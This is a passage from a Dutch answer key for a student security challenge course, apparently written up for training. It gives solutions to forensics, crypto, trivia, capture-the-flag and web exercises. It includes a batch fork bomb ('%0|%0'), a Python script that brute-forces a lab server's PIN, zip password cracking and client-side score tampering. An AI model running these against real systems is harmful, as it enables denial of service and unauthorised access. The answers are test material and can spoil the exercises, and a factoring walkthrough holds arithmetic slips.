	png_bytep* row_pointers = (png_bytep*) malloc(sizeof(png_bytep) * height);
	int x, y;
	for(y = 0; y < height; y++)
		row_pointers[y] = (png_byte*) malloc(png_get_rowbytes(png,info));

	png_read_image(png, row_pointers);
	fclose(fp);

	unsigned char e = 0; int bits_written = 0;
	for(y = 0; y < height; y++) {
		png_bytep row = row_pointers[y];
		for(x = 0; x < width; x++) {
			e = e << 1;
			if(row[x] & 1) e++;
				bits_written++;

			if(bits_written == 8) {
				printf("%c", e);
				e = 0; bits_written = 0;
			}
		}
	}

	return 0;
}

Do you see any Teletubbies in here? Do you see a slender plastic tag clipped to my shirt with my name printed on it? Do you see a little Asian child with a blank expression on his face sitting outside on a mechanical helicopter that shakes when you put quarters in it? No? Well, that's what you see at a toy store. And you must think you're in a toy store, because you're here shopping for an infant named Jeb. (From http://slipsum.com)
\end{lstlisting}
\section{Oefening 14}
De eerste oplossing van deze evil\_usb.dd kan men vinden door het bekijken van de aanwezig browser history.\\
Hier kan men een link naar Google Maps met co\"ordinaten terugvinden. Wanneer deze co\"ordinaten in Google Maps worden ingevoerd wordt "Ketenislaan" gevonden.\\\\
De tweede oplossing is iets moeilijker. Eerst controleren we met behulp van het fls-commando de verwijderde bestanden. Na het uitvoeren van ``fls -r evil\_usb.dd'' worden er 4 foto's gevonden.\\\\
De oplossing is de link tussen deze foto's. Amerika.
\section{Oefening 15}
Op deze image kan men de oplossing bekomen door middel van het uitvoeren van de volgende commando's:
\begin{enumerate}
\item fls usb.dd
\begin{enumerate}
\item Kijken welke bestanden verwijderd zijn
\end{enumerate}
\item istat usb.dd 4
\begin{enumerate}
\item Display details of a meta-data structure
\end{enumerate}
\item icat usb.dd 4 \textgreater out.png
\begin{enumerate}
\item Oplsaan van het verwijderde bestand in out.png
\end{enumerate}
\item xdg-open out.png
\begin{enumerate}
\item Openen van het gevonden bestand
\end{enumerate}
\end{enumerate}
\newpage

\chapter{malware}
\section{Oefening 1}
\begin{enumerate}
  \item Open Download in Chrome
  \item Wachtwoord wordt zichtbaar in een pop-up
  \item Oplossing: slimeCookies
\end{enumerate}
\section{Oefening 2}
\begin{enumerate}
  \item Copy paste het commando \%0\textbar\%0 in notepad
  \item Dit bestand opslaan als malware1.bat
  \item md5sum van malware1.bat berekenen
  \item Oplossing: 3808d82ed52876c3dda66fbf4cb142c8
\end{enumerate}
\section{Oefening 3}
\begin{enumerate}
  \item Copy paste het commando ``shutdown ...'' in notepad
  \item Dit bestand opslaan als malware2.bat
  \item sha1 van malware2.bat berekenen
  \item Oplossing: e68d76f700ed3aa6a44329542ec1e241a27120b7
\end{enumerate}
\section{Oefening 4}
\begin{enumerate}
  \item Copy paste het commando '\#!/bin/bash ...' in een text-editor
  \item Dit bestand opslaan als malware4
  \item md5sum van malware4 berekenen
  \item Oplossing: 340a4cc6d5f5d1542a8d27890ab4cbd5
\end{enumerate}
\newpage

\chapter{encryptie}
\section{Oefening 1}
\begin{enumerate}
  \item Kopi"eer de opgave
  \item Base64 decoder geeft ons het antwoord
  \item Eerste oefening! base64 FTW!
\end{enumerate}
\section{Oefening 2}
\begin{enumerate}
  \item Kopi"eer de opgave
  \item Ceasar encoder
  \item dit is je eerste ceasar cipher tekst
\end{enumerate}
\section{Oefening 3}
\begin{enumerate}
  \item Kopi\"eer de opgave
  \item Ceasar decoder
  \item een iets moeilijkere opgave
\end{enumerate}
\section{Oefening 4}
\begin{enumerate}
  \item Deze oefening is een voorbeeld van substitution
  \item Op de afbeelding is een vrouw aan het hoelahoepen
  \item parseparyrz bevat evenveel letters als hoelahoepen
  \item We kunnen het volgende hieruit afleiden
  \begin{enumerate}
  \item p = h
  \item a = o
  \item r = e
  \item s = l
  \item e = a
  \item p = h
  \item a = o
  \item r = e
  \item y = p
  \item r = e
  \item z = n
  \end{enumerate}
  \item iq
  \item wrju
  \begin{enumerate}
  \item r = e
  \end{enumerate}
  \item mao
  \begin{enumerate}
  \item a = o
  \end{enumerate}
  \item Nu krijgen we het volgende: hoelahoepen .. .e.. .o.
  \item Brute-forcen is nu nodig om de oplossing te vinden
  \item hoelahoepen is mega tof
\end{enumerate}
\section{Oefening 5}
\begin{enumerate}
  \item In de link zien wij: xblezwjdmfpoaqvuykinsctrgh
  \item We gebruiken deze link als substitutie-regel:
  \begin{enumerate}
  \item x = a
  \item b = b
  \item l = c
  \item ...
  \item g = y
  \item h = z
  \end{enumerate}
  \item txn
  \begin{enumerate}
  \item t = w
  \item x = a
  \item n = t
  \end{enumerate}
  \item zzq
  \begin{enumerate}
  \item z = e
  \item z = e
  \item q = n
  \end{enumerate}
  \item jvzez
  \begin{enumerate}
  \item j = g 
  \item v = o
  \item z = e
  \item e = d
  \item z = e
  \end{enumerate}
  \item dmqn
  \begin{enumerate}
  \item d = h
  \item m = i
  \item q = n
  \item n = t
  \end{enumerate}
  \item tzke
  \begin{enumerate}
  \item t = w
  \item z = e
  \item k = r
  \item e = d
  \end{enumerate}
  \item dmzk
  \begin{enumerate}
  \item d = h
  \item m = i
  \item z = e
  \item k = r
  \end{enumerate}
  \item jzjzczq
  \begin{enumerate}
  \item j = g
  \item z = e
  \item j = g
  \item z = e
  \item c = v
  \item z = e
  \item q = n
  \end{enumerate}
  \item wat een goede hint werd hier gegeven
\end{enumerate}
\section{Oefening 6}
\begin{enumerate}
  \item Verander in de opgave telkens de 2 opeenvolgende letters
  \item ki = ik
  \item csihte = sc hi et = schiet
  \item ej = je
  \item wdras = dw ar s = dwars
  \item odro = do or = door
  \item ej = je
  \item osedimtere = so de mi et er = sodemieter
  \item ik schiet je dwars door je sodemieter
\end{enumerate}
\section{Oefening 7}
\begin{enumerate}
  \item Dit is een brute-force oefening
  \item Om het brute-forcen te vereenvoudigen kan er rekening gehouden worden met de verdeling van de letters in het engels
  \begin{enumerate}
  \item vb: e komt meer voor dan x
  \end{enumerate}
  \item the amazing dragon is defending the evidence in the classroom without pants
\end{enumerate}
\section{Oefening 8}
\begin{enumerate}
  \item 6 punten zijn gegeven
  \item Hieruit kunnen we een 5-de graads functie berekenen
  \begin{enumerate}
  \item f(x) = ax\textsuperscript{5} + bx\textsuperscript{4} + cx\textsuperscript{3} + dx\textsuperscript{2} + ex + f
  \item f(x) = x\textsuperscript{5} - 18x\textsuperscript{4} + 121x\textsuperscript{3} - 372x\textsuperscript{2} + 508x - 228
  \end{enumerate}
  \item Oplossing is het snijpunt met de y-as: (0, -228)
\end{enumerate}
\section{Oefening 9}
\begin{enumerate}
  \item Kopi"eer de opgave in een hex-ASCII converter
  \item De uitkomst nog eens converten van hex naar ASCII
  \item Oplossing: powerpudding
\end{enumerate}
\section{Oefening 10}
\begin{enumerate}
  \item Kopi"eer de opgave
  \item Morse code translator
  \item olifantenpinda
\end{enumerate}
\section{Oefening 11}
\begin{enumerate}
  \item Google: braille alphabet
  \item de . wil zeggen dat het woord met een hoofdletter begint
  \item Bij het vertalen van de afbeelding krijgen we de oplossing
  \item Stevie Wonder
\end{enumerate}
\section{Oefening 12}
\begin{enumerate}
  \item Deze oefening is een oefening op het ontbinden in priemfactoren
  \item Uit de tip vinden we:
  \begin{enumerate}
  \item a = 2
  \item b = 3
  \item c = 5
  \item d = 7
  \item e = 11
  \item f = 13
  \item g = 17
  \item h = 19
  \item i = 23
  \item j = 29
  \item k = 31
  \item l = 37
  \item m = 41
  \item n = 43
  \item o = 47
  \item p = 53
  \item q = 59
  \item r = 61
  \item s = 67
  \item t = 71
  \item u = 73
  \item v = 79
  \item w = 83
  \item x = 89
  \item y = 97
  \item z = 101
  \end{enumerate}
  \item Deze oefening is op te lossen m.b.v. een online tool:
  \begin{enumerate}
  \item http://nl.numberempire.com/numberfactorizer.php
  \end{enumerate}
  \item Deze oefening is ook manueel op te lossen:
  \begin{enumerate}
  \item We nemen de opgave en delen deze door de priemfactoren
  \begin{enumerate}
  \item 6876359017 / 2 != geheel getal
  \item 6876359017 / 3 != geheel getal
  \item 6876359017 / 5 != geheel getal
  \item ...
  \item 6876359017 / 11 (= e) == 625123547
  \end{enumerate}
  \item We nemen het nieuwe getal: 625123547
  \begin{enumerate}
  \item 625123547 / 11 != geheel getal
  \item 625123547 / 13 != geheel getal
  \item ...
  \item 625123547 / 37 (= l) == 16895231
  \end{enumerate}
  \item We nemen het nieuwe getal: 16895231
  \begin{enumerate}
  \item 16895231 / 47 (= o) == 359473
  \end{enumerate}
  \item We nemen het nieuwe getal: 359473
  \begin{enumerate}
  \item 16895231 / 61 (= r) == 5893
  \end{enumerate}
  \item We nemen het nieuwe getal: 5893
  \begin{enumerate}
  \item 16895231 / 71 (= t) == 83 (= w)
  \end{enumerate}
  \end{enumerate}
  \item elortw = wortel
\end{enumerate}
\section{Oefening 13}
\begin{enumerate}
  \item In deze opgave zijn alle klinkers weggelaten.
  \item wlntn = walnoten
  \item vlln = vallen
  \item vn = van
  \item hg = hoge
  \item bmn = bomen
  \item walnoten vallen van hoge bomen
\end{enumerate}
\section{Oefening 14}
\begin{enumerate}
  \item Ieder cijfer staat voor de overeenkomstige letter in het afabet
  \begin{enumerate}
  \item 16 = p
  \item 9 = i
  \item 11 = k
  \item 1 = a
  \item 3 = c
  \item 8 = h
  \item 21 = u
  \end{enumerate}
  \item pikachu
\end{enumerate}
\section{Oefening 15}
\begin{enumerate}
  \item Het lezen van de letters van de woorden van rechts naar links
  \item encryptie koning
\end{enumerate}
\section{Oefening 16}

\includegraphics[scale=0.5]{encryptie/oef16.png}
\\\\Uit bovenstaande afbeelding kunnen we de oplossing berekenen: kikkerkermit
\section{Oefening 17}
\begin{enumerate}
  \item Surf naar Google Translate
  \item Geef de opgave in
  \item Google kan automatisch een taal detecteren
  \item voetbal
\end{enumerate}
\section{Oefening 18}
\begin{enumerate}
  \item Ceasar algoritme
  \item Elke letter wordt met een andere key berekend
  \item De keys zijn veelvouden van 3
  \begin{enumerate}
  \item 3 - 6 - 9 - 12 - 15 - 18
  \item key = 3, q = t
  \item key = 6, i = o
  \item key = 9, d = m
  \item ...
  \item key = 18, b = t
  \end{enumerate} 
  \item tomaat   
\end{enumerate}
\section{Oefening 19}
\begin{enumerate}
  \item Oplossen m.b.v Wikipedia: http://nl.wikipedia.org/wiki/Vigen\%C3\%A8recijfer
  \item De key: mintymagnet
  \begin{enumerate}
  \item Linker kolom: M, Rechter kolom: R = F
  \item LK: I, RK: T = L
  \item ...
  \item LK: E, RK: W = S
  \item LK: T RK: A = H
  \end{enumerate}
  \item floppyflash
\end{enumerate}
\section{Oefening 20}
\begin{lstlisting}
Key: LEONARDO en DAVINCI
Opgave: dmo ua pda mae wi et wuk

D A V I N C I		1) dmo verticaal schrijven onder 1
3 1 7 4 6 2 5		2) ua onder 2
-------------		   ...
P D W M E U W		7) wuk onder 7
D M U A T A I
A O K E

L E O N A R D O		1) PD verticaal onder 1
4 3 6 5 1 8 2 7		2) WM onder 2
---------------		3) EUW onder 3
D E A A P K W A		   ...
M U I T D E M 0		8) KE onder R
U W     

Oplossing: de aap kwam uit de mouw
\end{lstlisting}
\newpage

\chapter{Trivia}
\section{Oefening 1}
\begin{enumerate}
  \item Fout
  \item Fout
  \item Fout
  \item Een exploit waardoor de hacker van op de lokale computer kernel privileges verkrijgt
  \item Juist
  \item Juist
  \item Fout
  \item DonaldDuckBaktGraag3Pannekoeken
  \item Fout
  \item Fout
\end{enumerate}
\section{Oefening 2}
\begin{enumerate}
  \item Fout
  \item Fout
  \item Juist
  \item Fout
  \item Fout
  \item Juist
  \item Fout
  \item Fout
  \item Fout
  \item Juist
\end{enumerate}
\section{Oefening 3}
\begin{enumerate}
  \item Juist
  \item Juist
  \item Fout
  \item Fout
  \item Fout
  \item Fout
  \item Anomaly detectie
  \item Juist
  \item Juist
  \item Fout
\end{enumerate}
\section{Oefening 4}
\begin{enumerate}
  \item Fout
  \item Fout
  \item Fout
  \item Een e-mail die de gebruiker aanspoort persoonlijke data op een valse website in te vullen
  \item Een wachtwoord moet regelmatig veranderd worden
  \item Fout
  \item Fout
  \item Juist
  \item Juist
  \item Fout
\end{enumerate}
\section{Oefening 5}
\begin{enumerate}
  \item Juist
  \item Juist
  \item Fout
  \item Fout
  \item Juist
  \item Een PIN code met 3 verschillende cijfers
  \item Fout
  \item Juist
  \item Juist
  \item Juist
\end{enumerate}
\newpage

\chapter{Capture the Flag}
\section{Oefening 1}
Voorbeeld oplossing:
\begin{enumerate}
  \item Open terminal
  \item telnet 192.168.255.133 4321
  \item wget http://192.168.255.130/bestanden/hex\_dump
  \item vim converter.py
  \item chmod +x converter.py
  \item python converter.py
  \begin{enumerate}
  \item file.bin is de output file
  \end{enumerate}
  \item hexdump -C file.bin \textbar  less
  \begin{enumerate}
  \item extensie: GIF
  \end{enumerate}
  \item mv file.bin file.gif (extensie aanpassen naar .gif)
  \item xdg-open file.gif (Nice pic!)
  \item md5sum file.gif
  \begin{enumerate}
  \item Oplossing: 9ec40922f1a7e92838ea02d5b742d8d9
  \end{enumerate}
\end{enumerate}

\begin{lstlisting}
import binascii

f1 = open( "hex_dump", "r" )
tekst = ""
for line in f1:
        line = line.replace(' ','')
        tekst = tekst + ""+ line.rstrip('\n')
f1.close()

n = 2
array = []
array = [tekst[i:i+n] for i in range(0, len(tekst), n)]

# change 4947 to 4749
n = 2
array2 = []
for i in range(0, len(array), n):
# [0] in [1] steken & omgekeerd
array2.append(array[i+1])
array2.append(array[i])

array = ''.join(array2)

bytes = binascii.a2b_hex(''.join(array))

f2 = open ("file.bin","wb")

f2.write(bytes)

f2.close()
\end{lstlisting}
\section{Oefening 2}
\begin{enumerate}
  \item Download brief.pdf
  \item Open deze brief.pdf met een hex-editor (vb: Bless Hex Editor)
  \begin{enumerate}
  \item Zoek naar: /Names \textless\textless /Embeddedfiles \textless\textless /Names [(password.doc) 7 0 R]
  \item Verander: /Embeddedfiles naar /EmbeddedFiles
  \item Save
  \end{enumerate}
  \item Open brief.pdf in pdf reader
  \item Bekijk de bijlages
  \item password.doc is nu zichtbaar geworden
  \item Open password.doc
  \item Neem de eerste letter van iedere lijn.
  \item Oplossing: TBAMMNIY
\end{enumerate}
\section{Oefening 3}
\begin{enumerate}
  \item Download de afbeelding
  \item Open met een hex-editor (vb: Bless Hex Editor)
  \item Zoek de lijn met PW....62...6F...65...6D
  \item Zoek een hex-ASCII converter
  \item Oplossing: boem
\end{enumerate}
\section{Oefening 4}
\begin{enumerate}
  \item decipher: locdknox/ozsmjsz.jsz is de opgave.
  \item Gebruik een ceasar decoder.
  \item Oplossing: bestanden/epiczip.zip
  \item Ga naar http://192.168.255.130/bestanden/epiczip.zip
  	\begin{enumerate}
  	\item foto1, foto2, gaWeg.mp3 en README
  	\item password protected
  	\end{enumerate}
  \item gebruik fcrackzip om het paswoord te achterhalen
  	\begin{enumerate}
  	\item fcrackzip -b -l 6 -v -c 1a epiczip.zip
  	\item Na een paar minuten: 8394pw
  	\end{enumerate}
  \item Unzippen van de epiczip.zip
  \item README lezen
  	\begin{enumerate}
  	\item foto1		   		 - Hint for finding the solution
  	\item foto2              - Second hint for finding the solution
  	\item gaWeg.mp3          - Last for finding the solution
  	\end{enumerate}
  \item Hints overlopen
  	\begin{enumerate}
  	\item foto1:
  		\begin{enumerate}
  		\item Openen met fotobewerking programma (vb. GIMP
  		\item Pak de fuzzy select tool (magic wand)
  		\item Zet de treshold op 0
  		\item Selecteer het wit tussen de Keep Away letters
  		\item De letters telnet verschijnen
  		\end{enumerate}
  	\item foto2:
  		\begin{enumerate}
  		\item Openen met een image viewer
  		\item Inzoomen links onderaan de rode balk met Danger
  		\item 192.168.255.134 staat hier geschreven
  		\end{enumerate}
  	\item mp3:
  		\begin{enumerate}
  		\item Open gaWeg.mp3 met een hex-editor (vb: Bless Hex Editor)
  		\item Scroll volledig naar beneden
  		\item Port 8765 staat hier geschreven
  		\end{enumerate}
  	\end{enumerate}
  \item Hints samennemen: telnet 192.168.255.134 8765
  \item Open terminal en telnet 192.168.255.134 8765
  \item Brute-forcen van de pincode van 4 cijfers
  \item Oplossing: 7583
  \item Oplossing op de site: azernipcmkjsdizaer75348nopve
\end{enumerate}

\begin{lstlisting}
#!/usr/bin/env python
import socket
import sys
import re 

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server_address = ('192.168.255.134', 8765)

s.connect(server_address)

data = s.recv(250)
code = ""

try:
	for i in range(10000):
		if(re.search("\nPassword correct!", data)):
			break
		else:
                        code = "%04d" % i
                        s.sendall(code + "\n")
			#data = ""
                        data = s.recv(250)

finally:
	print "Code: ", code

s.close()

Output:
	Code: 7583
\end{lstlisting}
\newpage

\chapter{Complex}
\section{Oefening 1}
\begin{enumerate}
  \item Merk op dat de home-pagina 'home.html' heet. Dit is dus niet de index pagina.
  \item Er is blijkbaar geen index pagina. Je kan gewoon de mappenstructuur bekijken.
  \item Er is een bestand 'belangrijk.txt', hierin staan de credentials van de site!
	\begin{enumerate}
	\item admin:hackersaurus
	\end{enumerate}
  \item De login pagina vraagt om een e-mail adres. Niet om een gebruikersnaam.
  \item Bij de pagina 'Hack iemand' wordt een e-mail gestuurd naar het e-mail adres van de admin.
  	\begin{enumerate}
	\item admin@h4xOrboy.zz
	\end{enumerate}
  \item Inloggen m.b.v. admin@h4xOrboy.zz en hackersaurus
  \item Klik op 'Verwijder hele website' om de oefening te voltooien.
  \item wachtwoord: bubbleslapper
\end{enumerate}
\section{Oefening 2}
\begin{enumerate}
  \item 
\end{enumerate}
\section{Oefening 3}
\begin{enumerate}
  \item De eerste stap is om in te kunnen loggen met acount `khl'. Ga naar de login pagina.
  \item In de broncode kan je zien dat er geen post gedaan wordt, maar dat er een Javascript functie gebruikt wordt.
  \item Binnen de head tag wordt verwezen naar een apart Javascript bestand. Open het.
  \item De code is verdoezeld, maak deze terug mooi met een tool. (Bijvoorbeeld: http://jsbeautifier.org/)
   \begin{enumerate}
   \item Sommige tools, inclusief jsbeautifier, doen moeilijk als je de laatste puntkomma laat staan.
   \end{enumerate}
  \item Zoek de login-functie. Het inloggen gebeurt blijkbaar volledig in Javascript.
   \begin{enumerate}
   \item De gebruikers worden blijkbaar bijgehouden in de variabele `data', maar de wachtwoorden worden geëncrypteerd.
   \item Het encrypteren gebeurt met de functie `encryptPassword'. Elk teken van het wachtwoord wordt met toString(16) naar hexadecimaal omgezet.
\item Zoek de variabele `data', kopieer het wachtwoord van `khl', open een converter tool van hex naar ascii en plak het wachtwoord erin.
   \end{enumerate}
  \item Nu we het wachtwoord hebben, wordt het tijd om de score te verhogen.
  \item De knop op de startpagina gebruikt de functie 'klik'.
  \item Automatisch aanpassen:
  \begin{enumerate}
  \item We laten een for-lus de functie `klik' 200000 keer oproepen.
  \item CTRL + SHIFT + j; typ `for (var i = 0; i < 199987; i++) { klik(); }', druk op enter, wachten... wachten... Klaar!
   \end{enumerate}
  \item Manueel aanpassen:
   \begin{enumerate}
   \item CTRL + SHIFT + j
   \item document.cookies=`score=200000'
   \item data.setScore(`khl', 200000)
   \item Klik nu een keer op de knop om de data te updaten.
   \end{enumerate}
  \item Ga nu naar de `highscores' pagina en klik op 'controleren'.
  \item Als alles juist ging, moet je nu het wachtwoord van gebruiker `khl' ingeven.
     \begin{enumerate}
  \item khlsucces!
  \end{enumerate}
  \item Oefening voltooid!
\end{enumerate}
\section{Oefening 4}
\begin{enumerate}
\item 
\end{enumerate}
\newpage
\end{document}
